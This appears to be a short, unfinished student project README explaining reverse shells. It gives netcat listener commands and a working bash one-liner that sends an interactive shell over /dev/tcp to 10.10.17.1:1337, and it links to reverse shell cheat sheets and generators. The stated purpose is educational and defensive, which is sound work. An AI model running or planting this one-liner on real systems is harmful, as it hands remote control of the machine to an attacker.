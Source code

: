 # Reverse Shell

<img src="https://miro.medium.com/v2/resize:fit:1024/1*CyVqkmA7wLYaippCGRXW5w.jpeg" alt="why reverse shell" width="600"/>


## first you need a listener
listener example
```bash
ncat -l -p 1337
```
```
nc -lvp <PORT>
```
This listens to the TCP port 1337 for ip like 10.10.17.1   
This needs to be set before the payload is executed
## Bash is simplest way to connect
bash reverse shell example
```bash
/bin/bash -i >& /dev/tcp/10.10.17.1/1337 0>&1
```
## There are even more that can be implemented
- PHP reverse shell
- Java reverse shell
- perl reverse shell
- python reverse shell
- etc

## There are countless resources
### Cheatsheet for reverse shell
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

### Online reverse shell generators
- https://www.revshells.com/
- https://weibell.github.io/reverse-shell-generator/


## Real world examples
1. BrokenSesame vulberability in alibaba PostGreSQl databases
    - 


# 390 Project 
The idea behind our project would be to find and aggregate reverse shell implementations. This would allow various vulnerabilities to be patched.
